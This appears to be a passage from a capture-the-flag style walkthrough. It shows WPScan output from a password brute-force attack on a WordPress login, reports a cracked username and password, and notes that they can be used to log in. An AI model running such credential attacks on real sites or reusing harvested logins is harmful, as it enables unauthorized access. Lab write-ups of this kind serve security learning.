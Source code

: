 ~~~bash                     

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <===============================================================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - c0rrupt3d_brain / 24992499                                                                                                                                                        
Trying c0rrupt3d_brain / 24992499 Time: 00:03:43 <                                                                                                  > (10700 / 14355092)  0.07%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: c0rrupt3d_brain, Password: 24992499

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Sep  6 21:35:02 2022
[+] Requests Done: 10866
[+] Cached Requests: 4
[+] Data Sent: 3.85 MB
[+] Data Received: 48.364 MB
[+] Memory used: 210.242 MB
[+] Elapsed time: 00:04:24
~~~

So I've found a valid username:password combination '''c0rrupt3d_brain:24992499''', which can be used to logon to WordPress.
